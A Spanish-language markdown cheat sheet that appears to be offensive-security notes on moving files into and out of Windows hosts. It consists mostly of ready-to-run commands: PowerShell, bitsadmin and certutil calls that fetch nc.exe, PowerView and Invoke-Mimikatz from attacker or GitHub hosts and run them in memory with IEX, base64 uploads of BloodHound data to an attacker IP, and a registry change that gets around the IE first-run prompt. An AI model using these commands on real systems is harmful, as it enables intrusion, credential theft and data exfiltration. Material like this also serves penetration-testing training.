 # File Transfer - Powershell

## Powershell Downloads

- System.Net.WebClient


```powershell
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

- Invoke-WebRequest 

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```


- Directo en memoria con EX

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

- Con pipelne a iex

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

- En ocasiones la configuración de IE incial no esta completada, se puede pasar con:
  
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess
```

- O se puede deshablitar desde el registro la configuración inicial de IE

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

## Powershell Uploads

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

```bash
nc -lnvp > base64
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitsadmin

### Download

- cmd

```cmd
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

- powershell
  
```powershell
Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil

```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

```cmd
certutil -urlcache -f http://10.10.15.96/upload_win.zip upload_win.zip
```

## Al final de los tiempos

Si